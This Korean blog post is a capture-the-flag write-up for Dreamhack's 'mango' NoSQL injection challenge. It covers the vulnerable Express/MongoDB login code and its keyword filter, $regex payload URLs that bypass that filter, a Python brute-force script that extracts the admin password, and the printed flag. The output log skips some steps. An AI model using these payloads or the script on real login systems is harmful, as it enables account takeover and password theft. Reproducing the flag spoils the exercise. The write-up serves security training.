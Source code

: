 ```yaml
---
layout : single
title : "[Dreamhack] STAGE6. SQL Injection (6) : Exercise"
categories: web-hacking
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```



# Web Hacking [함께실습] mango
## 웹 서비스 분석

### 엔드포인트 : /login
이용자가 뭐리로 전달한 uid와 upw로 데이터베이스를 검색하고, 찾아낸 이용자의 정보를 반환한다.

```js
app.get('/login', function(req, res) {
    if(filter(req.query)){ // filter 함수 실행
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query; 
    db.collection('user').findOne({ // db에서 uid, upw로 검색
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){ 
            res.send('err');
        }else if(result){ 
            res.send(result['uid']); 
        }else{
            res.send('undefined'); 
        }
    })
});
```

### filter 함수
일부 문자열을 필터링하는 함수로, login의 GET 핸들러를 살펴보면, 이용자의 요청에 포함된 쿼리를 filter 함수로 필터링한다. 해당 함수는 admin, dh, admi라는 문자열이 있을 때 true를 반환한다. (이러한 필터링은 인젝션이 발생할 수 있는 근본적 문제점을 해결하지 못하며, 보안상 안전한 코딩 방식이 아니다.)

```js
// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];
filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
```

## 취약점 분석 & 익스플로잇 (Exploit : 취약점 공격)
로그인 페이지를 구성하는 코드에서, 쿼리 전달부를 살펴보면, 쿼리의 변수 타입을 검사하지 않는다
```js
const {uid, upw} = req.query; // 이용자가 전송한 uid, upw 입력값을 가져옴
db.collection('user').findOne({ // db에서 uid, upw로 검색
    'uid': uid,
    'upw': upw,
}
```

1) Blind NoSQL Injection Payload 생성 <br><br>
MongoDB의 $regex 연산을 사용하여 정규표현식을 이용해 데이터를 검색할 수 있고, upw가 일치하는 경우 uid, 아닌 경우 undefined가 출력되는 것을 통해 쿼리의 참과 거짓을 확인할 수 있다.

```
http://host1.dreamhack.games:13698/login?uid=guest&upw[$regex]=.*
```

2) filter 우회 <br><br>
filter 함수가 특정 문자열을 필터링하지만, 정규표현식에서 임의 문자를 의미하는 .을 이용하면 쉽게 우회할 수 있다.

```
http://host1.dreamhack.games:13698/login?uid[$regex]=ad.in&upw[$regex]=D.{*
```
#### 익스플로잇

```python
import requests
import string

url = 'http://host3.dreamhack.games:10122/login?uid[$regex]=adm..&upw[$regex]=D.{'
alphanumeric = string.ascii_letters + string.digits
flag = ''

for i in range(32):
    for char in alphanumeric:
        res = requests.get(url + flag + char + '.*')
        if res.text == 'admin':
            flag += char
            print('DH{' + flag)
            break

print('DH{' + flag + '}')
```
위와 같이 브루트포스를 통해 모든 숫자, 알파벳을 넣어보며 한 글자씩 검사한다. 이 때, 반환되는 text가 admin이라면 해당 글자를 flag에 더해주며 순차적으로 출력한다. <br><br>
결과
```
DH{8
DH{89
DH{89e
DH{89e5
DH{89e50
DH{89e50f
DH{89e50fa
DH{89e50fa6
DH{89e50fa6f
DH{89e50fa6fa
DH{89e50fa6fafe26
DH{89e50fa6fafe260
DH{89e50fa6fafe2604
DH{89e50fa6fafe2604e
DH{89e50fa6fafe2604e3
DH{89e50fa6fafe2604e33
DH{89e50fa6fafe2604e33c
DH{89e50fa6fafe2604e33c0
DH{89e50fa6fafe2604e33c0b
DH{89e50fa6fafe2604e33c0ba
DH{89e50fa6fafe2604e33c0ba0
DH{89e50fa6fafe2604e33c0ba05
DH{89e50fa6fafe2604e33c0ba058
DH{89e50fa6fafe2604e33c0ba0584
DH{89e50fa6fafe2604e33c0ba05843
DH{89e50fa6fafe2604e33c0ba05843d
DH{89e50fa6fafe2604e33c0ba05843d3
DH{89e50fa6fafe2604e33c0ba05843d3d
DH{89e50fa6fafe2604e33c0ba05843d3df
DH{89e50fa6fafe2604e33c0ba05843d3df}
```